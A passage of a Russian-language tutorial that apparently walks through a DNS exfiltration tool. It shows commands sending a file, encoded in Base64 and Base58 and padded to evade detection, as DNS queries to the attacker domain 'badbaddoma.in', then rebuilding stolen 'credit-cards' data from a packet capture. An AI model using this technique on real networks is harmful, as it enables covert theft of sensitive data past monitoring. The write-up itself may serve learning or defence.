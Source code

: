 * Доменное имя : (Здесь вы собираетесь разместить свое доменное имя, например, мое доменное имя — badbaddoma.in)



python packety.py

Filename: securecorp.txt

Domain Name (Example: badbaddoma.in): badbaddoma.in

[+] Reading file.

[+] Base64 encoded.

[+] Base58 encoded.

Start transmitting... [PRESS ENTER KEY]


Код начинается с чтения из текстового файла. Содержимое текстового файла сначала будет закодировано в Base64, а 
затем в Base58. Это оставит нам длинную закодированную строку. Затем строка будет разделена на секции длиной в 20 
символов, где к каждой секции будут добавлены 3 «фиктивных» символа для дальнейшей обфускации. Один символ будет 
добавлен к закодированной строке в начало, а два символа будут добавлены в конец.

Например, раздел закодированных данных может выглядеть так: ' 6gfghhjywsas3rg4hda3 '. После добавления 
дополнительных символов получится ' x6gfghhjywsas3rg4hda3yu '. 


После того, как все закодировано и готово, код будет ждать, пока пользователь нажмет «ENTER», чтобы начать передачу 
запросов на DNS- сервер. DNS- сервер уже будет настроен на захват входящих запросов с помощью «Wireshark» или «tshark». 



Затем остается только ждать, пока передача достигнет 100%. Если какой-либо из запросов не будет доставлен вовремя и 
в правильном порядке, извлеченные данные будут неполными и бесполезными для злоумышленника. 


3.  packageyGrabber.py (  https://github.com/kleosdc/ dns -exfil-infil  )

Код запросит у пользователя следующие данные:

* Захваченный файл : это файл . pcap , который вы захватили на своем DNS- сервере.

* Имя выходного файла : это имя файла, в котором будут сохранены декодированные данные.

* Доменное имя : это будет ваше доменное имя.



`python3 ~/tools/packety/packetyGrabber.py`

File captured: cap-credit-cards.pcap

Filename output: credit-cards.txt

Domain Name (Example: badbaddoma.in): badbaddoma.in
